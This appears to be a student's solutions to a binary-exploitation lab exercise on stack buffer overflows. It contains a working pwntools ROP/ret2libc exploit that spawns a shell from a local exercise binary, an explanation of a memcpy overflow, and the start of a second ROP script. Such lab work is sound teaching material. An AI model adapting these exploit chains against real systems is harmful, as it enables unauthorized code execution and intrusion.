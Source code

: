 ```python
#!/usr/bin/env python3
from pwn import *

p = process('./bin/ex1')

p.recvuntil('Select an airline:\n')
p.sendline('0')
p.recvuntil('Please input your name to check your booking:\n')

libc_base = 0x00007ffff7da5000
pop_rdi = libc_base + 0x10f75b
system = libc_base + 0x58740
binsh = libc_base + 0x1cb42f

ret = libc_base + 0x2882f

padding = 344

payload = b'A' * padding + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)

p.sendline(payload)
p.interactive()
```

## Exercise 2
### [Q5]: Explore the program. What does it do? Where is the vulnerability?
### Solution to [Q5]:
The program reads user input into a 256-byte buffer `souldream`, then copies it into a smaller 64-byte buffer `bad_nightmare` using `memcpy` without proper bounds checking. This causes a buffer overflow in the `nightmare()` function because it copies 256 bytes into a buffer that can only hold 64 bytes.

### [Q6]: Dump the ROP gadgets from the binary. Look at them and think which might be useful and why.
### Solution to [Q6]:
`pop rdi` -> this will pop "/bin/sh" into rdi

`ret` -> this is used for stack alignment
```python
0x00000000004012b5: pop rdi; pop rbp; ret;
0x000000000040101a: ret;
```

### [Q7]: How would you call `dream_msg()` with one of the strings in the binary using a ROP chain? Try it.
### Solution to [Q7]:
```python
#!/usr/bin/env python3

from pwn import *

p = process('./bin/ex2')
context.binary = './bin/ex2'
offset = 72

# pop rdi & pop rbp
pop_rdi = 0x00000000004012b5
souldream = 0x404060
dream_msg = 0x4011b6
```